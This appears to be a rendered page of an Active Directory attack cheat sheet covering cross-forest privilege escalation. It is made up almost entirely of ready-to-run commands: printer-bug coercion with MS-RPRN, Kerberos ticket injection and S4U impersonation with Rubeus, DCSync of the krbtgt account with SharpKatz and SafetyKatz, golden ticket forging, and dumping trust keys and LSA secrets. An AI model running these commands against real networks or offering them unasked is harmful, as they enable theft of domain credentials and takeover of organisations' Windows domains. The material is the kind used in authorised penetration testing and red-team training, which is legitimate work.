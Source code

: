 Abuse MSRPRN (printer bug)
```Powershell
MS-RPRN.exe \\<other_server>.<other_domain> \\<unconstrained_deleg_server>.<current_domain>
```

Inject ticket
```Powershell
Rubeus.exe ptt /ticket:<base64_ticket>
```

DCSync attack
```Powershell
SharpKatz.exe --Command dcsync --User <other_domain>\krbtgt --Domain <other_domain> --DomainController <other_dc>.<other_domain>

# OR

SafetyKatz.exe "lsadump::dcsync /user:<domain>\krbtgt /domain:<other_domain> /dc:<other_dc>.<other_domain>" "exit"
```

### Cross-forest constrained delegation

Enum in other forests
```Powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Server eu.local -Properties msDS-AllowedToDelegateTo
```

Get ticket for user in other forest
```Powershell
Rubeus.exe s4u /user:<user> /rc4:<hash> /impersonateuser:Administrator /domain:<other_domain> /msdsspn:nmagent/<other_dc>.<other_domain> /altservice:ldap /dc:<other_dc>.<other_domain> /ptt
```

DCSync attack
```Powershell
SharpKatz.exe --Command dcsync --User <other_domain>\krbtgt --Domain <other_domain> --DomainController <other_dc>.<other_domain>

# OR

SafetyKatz.exe "lsadump::dcsync /user:<domain>\krbtgt /domain:<other_domain> /dc:<other_dc>.<other_domain>" "exit"
```

### Cross-forest trustkey

Extract trust key (= Hash NTLM when running dcsync on system account)
```Powershell
BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<other_domain> /sid:<current_domain_sid> /krbtgt:<current_domain_krbtgt_ntlm_hash> /ptt"

lsadump::dcsync /user:<other_domain>\<system>$ /domain:<other_domain>
```

(optional others)
```
"lsadump::trust /patch"
"lsadump::dcsync /user:us\techcorp$"
"lsadump::lsa /patch"
```
